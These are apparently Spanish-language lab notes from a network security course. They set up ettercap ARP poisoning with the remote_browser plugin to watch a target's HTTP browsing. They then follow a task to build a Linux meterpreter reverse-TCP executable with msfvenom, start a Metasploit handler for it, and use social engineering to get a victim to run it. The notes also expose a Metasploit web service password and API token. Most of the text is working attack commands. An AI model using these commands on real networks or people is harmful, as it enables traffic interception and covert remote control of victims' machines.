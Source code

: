     nano /etc/ettercap/etter.conf:
        ec_gid = 0
        ec_uid = 0
         DESCOMENTAR TODAS LAS LINEAS DE REDIR COMMAND (IPV6 TB)
        remote_browser = "xdg-open http://%host%url"
   ->las url http aparecen filtrando por http, las https aparecen como comunicaciones DNS y el respectivo trafico TCP
       tenemos que mostrarlo por pantalla, cada vez que busques algo tiene que aparecer.
   ->ettercap -i ens33 -w salidaEttercap -P repoison_arp -P remote_browser -Tq -M arp:remote /10.11.49.97// /10.11.48.1//
   
   AL activar el plugin remote browser veremos por pantalla lo que la otra persona este viendo (siempre que se trate de tráfico HTTP,
      y hasta podremos interactuar con la la página nosotros, salir y si el otro busca otra cosa nos volverá a aparecer)
 
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   
g) Instale metasploit. Haga un ejecutable que incluya un Reverse TCP meterpreter payload
   para plataformas linux. Inclúyalo en un filtro ettercap y aplique toda su sabiduría en
   ingeniería social para que una víctima u objetivo lo ejecute.
  
  
  INSTALACION:
     
     -curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
     -chmod +x msfinstall
     -./msfinstall
     (inicializamos base de datos) -> aparentemente como no root.
     -msfdb init
           :    MSF web service username: miguel
		MSF web service password: 2409
		MSF web service user API token: abb6dba9a7179c3843cab3b3a5ec356fe1c2e664eceaa2cb20cd4c0bbe134d85b598e0c9d5fb9358
		
     -msfconsole --version -> checkeamos version.  
  
  LANZAR MFSCONSOLE:
      
      -msfconsole
      (verificar conectividad)
      -db_status --token abb6dba9a7179c3843cab3b3a5ec356fe1c2e664eceaa2cb20cd4c0bbe134d85b598e0c9d5fb9358 --cert /home/lsi/.msf4/msf-ws-cert.pem --skip-verify https://localhost:5443
      
      ->Ejecutar msfconsole como usuario sin privilegios, si no no podemos interactuar con la BD.
      
  CREAR EL EJECUTABLE TCP_REVERSE METERPRETER PAYLOAD.
      -/opt/metasploit-framework/bin/msfvenom -l payloads | grep "linux/x64"
      ->escogemos el meterpreter_reverse_tcp
      -msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=10.11.49.98 lport=1234 -f elf -o evil_shell 
      (Le damos permisos)
      -chmod +x evil_shell
  
  PARA EJECUTAR LA POST-EXPLOTACION:
      
      -msfconsole
      -use exploit/multi/handler
      -set payload linux/x64/meterpreter_reverse_tcp
      -set lhost 10.11.49.98
      -set lport 1234
      -exploit
      